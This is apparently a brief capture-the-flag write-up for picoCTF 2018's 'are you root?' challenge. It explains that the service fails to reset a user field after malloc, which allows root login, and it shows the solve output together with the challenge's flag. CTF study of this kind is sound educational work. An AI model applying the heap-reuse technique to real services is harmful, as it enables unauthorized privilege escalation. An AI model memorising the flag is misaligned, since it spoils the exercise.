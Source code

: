 # are you root? - Points: 550 - (Solves: 144)

Can you get root access through this [service][1] and get the flag?
Connect with nc 2018shell2.picoctf.com 41208
[Source][2].

[1]: https://2018shell2.picoctf.com/static/5c15a7b45758c8ba564f31d6537513f7/auth
[2]: https://2018shell2.picoctf.com/static/5c15a7b45758c8ba564f31d6537513f7/auth.c

## Hints

If only the program used calloc to zero out the memory..

---

Not reset user after allocating from malloc.

```sh
% py solve.py REMOTE
[+] Opening connection to 2018shell2.picoctf.com on port 41208: Done
Logged in as "root"

Enter your command:
> picoCTF{m3sS1nG_w1tH_tH3_h43p_bc7d345a}


Enter your command:
>
```
